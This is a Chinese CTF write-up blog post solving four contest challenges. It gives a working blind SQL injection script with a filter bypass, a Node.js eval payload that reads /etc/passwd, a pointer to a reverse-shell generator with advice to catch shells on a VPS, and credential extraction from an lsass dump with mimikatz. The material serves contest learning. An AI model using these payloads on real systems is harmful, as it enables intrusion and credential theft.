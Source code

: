 ```yaml
---
layout: post
title: 平衡信息杯_Web_WriteUp
date: 2017-10-22
categories: Write_Up
---
```


### Web300

界面只有一个It Works。注释里也没有任何东西。于是访问`index.php`准备看看是不是本页面，如果是，看是否有源码泄露。

![1](/images/posts/gxc/1.png)

结果访问后，发现跳转了界面。

![2](/images/posts/gxc/2.png)

点进去连接看什么样后是这个界面，可以注意到url多了参数`id`

![3](/images/posts/gxc/3.png)

可以推断，有可能存在文件包含，也可能存在SQL注入。经过尝试后，因为当`id=5-2`依旧是这个界面，所以是SQL注入。

发现过滤了`select`，用`sel/**/ect`就可以绕过了

自己写的是一个时间盲注脚本，但是因为服务器的问题，写wp的时候重新跑，没有顺利跑完。给出队友写的脚本：

	import requests
	import string
	
	payloads = string.printable
	letters = ''
	
	for i in range(1, 17):
	    for payload in payloads:
	        # url = 'http://39.108.7.112/show.php?id=1+and+ascii(mid(database(),{0},1))={1}'.format(str(i), ord(payload))
	        # url = 'http://39.108.7.112/show.php?id=1+and+ascii(mid((select+schema_name+from+information_schema.schemata+limit+1,1),{0},1))={1}'.format(
	            str(i), ord(payload))
	        url = 'http://39.108.7.112/show.php?id=1+and+ascii(mid((select+flag+from+gxnnctf2017.flag),{0},1))={1}'.format(str(i), ord(payload))
	        res = requests.get(url).content
	        print url
	        if 'id' in res:
	            letters += payload
	            print letters
	            break
	            
这个布尔注入的脚本可以拿到flag。

### Web200

这道题因为服务器挂了，没有截图。提示要传一个echo给服务器，传了后发现可以输出数字，就跟`echo`一样。输入字符和不输入的时候会报错。报错的时候可以发现调用了`eval`来执行传入的参数。

因为网址是`nodejs`开发的，所以`eval`会将字符当作代码执行。从而造成匿名函数的使用，可以通过`nodejs`的`fs`模块读取文件。代码如下：

	http://120.78.94.249/?echo=res.end(require(%27fs%27).readFileSync(%27/etc/passwd%27).toString())

但是因为js的代码能力不足。没有通过写匿名函数成功遍历目录找到flag。但是在GitHub发现一个脚本，可以反弹一个shell回来。

	https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py

此处注意要用在公网的电脑监听，否则不一定能收到。最好的就是生成反弹到自己的vps上。

最后在上级目录发现了flag目录里面的flag。

### Web100

Web100是一个html，打开后发现代码如下：

	<script>
	eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('2 c=E;g m(){2 8=p.q;2 6=l j();f(8.w("?")!=-1){2 h=8.r(1);5=h.9("&");d(2 i=0;i<5.o;i++){6[5[i].9("=")[0]]=u(5[i].9("=")[1])}}v 6}g n(4,s,e){7="";d(i=0;i<4.o;i++){k=(s+e)%c;t=e;e=s+e;s=t;7+=4[i]^k}f(7=="x")b.a("C\'s z!");B b.a("A\'s y!")}2 3=l j();3=m();b.a(3);n(3[\'4\'],F,D);',42,42,'||var|Request|key|strs|theRequest|cipher|url|split|log|console|iv|for||if|function|str||Object||new|GetRequest|enc|length|location|search|substr|||unescape|return|indexOf|34558914423312210022264341011282361161032135513678115123012499|Wrong|Right|Something|else|That|21|0xff|13'.split('|'),0,{}))
	</script>
	
是一个经过混淆加密的javascript。关于代码混淆加密可以参考[phpjiami数种解密方法](https://www.leavesongs.com/PENETRATION/unobfuscated-phpjiami.html)(虽然文章是PHP的，看似跟Javascript无关，但其实本质都一样)。所以这里我们选择将eval改为alert执行试试，果然弹出了源码。

![4](/images/posts/gxc/4.png)

源码如下：

	var iv = 0xff;
	
	function GetRequest() {
		var url = location.search;
		var theRequest = new Object();
		if (url.indexOf("?") != -1) {
			var str = url.substr(1);
			strs = str.split("&");
			for (var i = 0; i < strs.length; i++) {
				theRequest[strs[i].split("=")[0]] = unescape(strs[i].split("=")[1])
			}
		}
		return theRequest
	}
	function enc(key, s, e) {
		cipher = "";
		for (i = 0; i < key.length; i++) {
			k = (s + e) % iv;
			t = e;
			e = s + e;
			s = t;
			cipher += key[i] ^ k
		}
		if (cipher == "34558914423312210022264341011282361161032135513678115123012499") console.log("That's Right!");
		else console.log("Something's Wrong!")
	}
	var Request = new Object();
	Request = GetRequest();
	console.log(Request);
	enc(Request['key'], 13, 21);
	
可以看到，需要传入一个参数key，如果key经过enc函数后，生成的cipher等于`34558914423312210022264341011282361161032135513678115123012499`这一串的时候，key就是flag。enc的核心算法是一个异或，通过逆写算法，可以得到key。稍微修改下代码逻辑，记录一些辅助量如下图：

![10](/images/posts/gxc/10.png)

当传入的数据够长的时候，我们需要将`k`和根据`k`生成的`flag`一一对应起来，最后形成`cipher`=`flag`。此时的k就是我们真正的flag。给出求出key的脚本：

	iv = 0xff
	s = 13
	e = 21
	k1 = []
	for i in range(0, 24):
	    k = (s + e) % iv
	    s, e = e, s + e
	    k1.append(k)
	cipher = "34 55 89 144 233 122 100 222 64 34 101 128 236 116 103 213 55 13 67 81 151 230 124 99"
	flag = []
	
	cipher1 = str.split(cipher)
	
	for x in range(0, 24):
	    for y in range(0, 9):
	        if y ^ int(k1[x]) == int(cipher1[x]):
	            flag.append(y)
	            print flag
	            break
	
	flag1 = "".join(map(str, flag))
	print flag1

后来因为一些原因flag改掉，改为源码算法的名称，直到最后都无人能解。算法名为:`Fibonacci_sequence`斐波拉契数列。


### Misc300

这道题是一个流量题，80MB左右的流量包，跑的很崩溃。跑了之后，查看http流量。看到关键请求，10.211.55.6向10.211.55.8的一个test.php发了post请求，请求内容暴露了test.php是一个一句话木马。

![5](/images/posts/gxc/5.png)

将请求的数据base64解码还原后。一路跟踪数据后可以发现，攻击者(10.211.55.6)通过让lsass.exe崩溃，然后下载崩溃后产生的lsass.dmp，其中有系统的内存信息，内存信息中有管理员账户密码。最后过滤tcp数据时发现攻击者通过3389登录了名为ctfflag的用户。所以我们的flag就是ctfflag的密码。我们也将lsass.dmp下载出来，用mimikatz读取密码即可。

![6](/images/posts/gxc/6.png)

![7](/images/posts/gxc/7.png)

其中有两个这样的很大的文件，还有一个在最末。只有一个里面包含密码。追踪流量的话，也能看出来，这是攻击者在下载lsass.dmp文件。

![8](/images/posts/gxc/8.png)

所以我们将dmp文件下载后，用010editor之类的软件将http头去掉，就可以用mimikatz读取了。结果如下：

![9](/images/posts/gxc/9.png)

得到flag。

转载请注明：[碎雪的小屋](http://RoyTse.github.io) » [平衡信息杯_Web_WriteUp](http://RoyTse.github.io/2017/10/平衡信息杯_Web_WriteUp/) 